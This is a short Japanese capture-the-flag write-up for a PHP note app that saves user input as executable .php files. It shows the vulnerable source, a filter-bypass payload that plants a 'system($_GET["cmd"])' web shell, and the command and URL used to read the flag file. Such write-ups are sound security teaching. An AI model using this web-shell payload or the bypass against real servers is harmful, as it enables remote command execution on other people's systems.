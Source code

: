 # Writeup

http://147.182.172.217:42002/index.php にアクセスする。

![](img/2021-09-19-15-57-57.png)

```php
<?php
if(isset($_POST["notewrite"]))
{
    $newnote = $_POST["notewrite"];
    $notetoadd = str_replace_first("<?php", "", $newnote);
    $notetoadd = str_replace_first("?>", "", $notetoadd);
    $notetoadd = str_replace_first("<script>", "", $notetoadd);
    $notetoadd = str_replace_first("</script>", "", $notetoadd);
    $notetoadd = str_replace_first("flag", "", $notetoadd);

    $filename = generateRandomString();
    file_put_contents("$filename.php", $notetoadd);
    header("location:index.php");
}
?>
```

入力した文字列に対して、その内容のphpファイルを作成するようになっている。

phpタグは置換されているので、以下のようにして回避する。

```
<?Php system($_GET["cmd"]); ??>>
```

`cmd`クエリにコマンドを入力し、フラグを探す。

`/flag.php`というファイルがあることが分かったので、中身を表示するとフラグが書かれていた。

```bash
cat /flag.php
```

http://147.182.172.217:42002/JxQ3834lqbJL9Bw.php/?cmd=cat%20/flag.php

<!-- flag{server_side_php_xss_is_less_known_but_considering_almost_80%_of_websites_use_php_it_is_good_to_know_thank_me_later_i_dont_want_to_stop_typing_this_flagg_is_getting_long_but_i_feel_like_we're_developing_a_really_meaningful_connection} -->
